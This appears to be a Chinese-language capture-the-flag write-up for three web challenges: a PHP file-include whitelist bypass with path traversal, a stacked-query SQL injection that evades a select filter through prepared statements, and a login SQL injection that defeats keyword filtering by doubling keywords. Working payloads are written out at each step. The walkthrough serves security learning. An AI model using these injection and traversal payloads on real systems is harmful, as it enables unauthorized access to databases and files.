# 2024-1-31

## 1



进入界面后只有一个图片，F12打开后提示有php文件，打开查看一下



php显示会对file参数进行检查mb_strpos是检测字符串第一次出现对应字符的位置，mb_substr是取length长度的字符串，最后他会在字符串page最后加上一个?,通过？来规定检查的范围，所以我们需要在白名单列表元素后加一个?来隔开。同时因为加上？后include找不到对应文件所以我们可以在？后面加一个/然后再加上我们要寻找的文件，这是因为include在给出的路径下没找到该文件，则include会在调用脚本文件所在的目录和当前工作目录下寻找这样../就能回到根目录。我们直接给出以下payload

source.php?file=source.php?/../../../../ffffllllaaaagggg



## 2

打开网址发现只有一个注入点，输入后会回显数据



打开网址发现只有一个注入点，输入后会回显数据



输入1' or 1=1;#会回显表内所有数据，代表存在SQL注入点



输入1' union select 1,发现select被过滤，使用堆叠查询进行注入



1'; show tables;#查询所有表



1'; show columns from `1919810931114514`;#查询对应表列名发现flag



因为select被过滤所以使用预编译方法来绕过1';prepare stmt from CONCAT('se','lect flag from `1919810931114514`');EXECUTE stmt;#

## 3

## 

进入注入页面，可以看见是常规的登陆界面，选择密码栏进行注入

使用万能密码1' or 1=1#注入发现or被过滤

使用1' union select 1#发现union和select都被过滤然后我们使用双写来绕过

使用1' uunionnion sselectelect 1,2#发现列数不对，我们尝试修改列数

使用1' uunionnion sselectelect 1,2,3#我们可以发现成功登录，我们就可以利用2，3处来进行回显

1' uunionnion sselectelect 1,2,group_concat(table_name) ffromrom infoorrmation_schema.tables wwherehere table_schema=database()#我们使用双写来查询表名发现有两个表。

1' uunionnion sselectelect 1,2,group_concat(column_name) ffromrom infoorrmation_schema.columns wwherehere table_name='b4bsql'#我们发现b4bsql有password列

1' uunionnion sselectelect 1,2,group_concat(passwoorrd)ffromrom b4bsql#查询password直接获得flag